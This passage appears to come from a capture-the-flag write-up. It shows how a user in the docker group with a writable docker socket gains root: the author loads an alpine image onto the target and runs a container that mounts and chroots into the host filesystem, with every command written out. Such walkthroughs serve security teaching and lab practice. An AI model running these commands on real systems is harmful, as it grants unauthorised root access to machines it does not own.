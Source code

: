 Bob seems to be a member of the docker group, and docker socket is writable:

![Writable Docker Socket.](/images/shaker/docker-socket.png)

That's all we need to know we obtain root privileges on this machine.

![Docker Containers and Images.](/images/shaker/containers-images.png)

We can see the shaker container and its image in the docker repository.

But we also know this image is severely limited. So instead we'll make our own.

On our machine we pull alpine:latest:
```bash
docker pull alpine:latest
```
Then we can use the save option to save an image to tar file:
```bash
docker image save alpine -o alpine.tar 
```
Then we upload this to the target machine and load it with:
```bash
docker image load -i alpine.tar
```

Finally we escalate to root by using this alpine image to spawn a container that mounts the host filesystem:
```bash
docker run -it -v /:/host/ alpine:latest chroot /host/ bash
```
![Obtained root privileges.](/images/shaker/root.png)

All that there's left to do is obtain the root flag.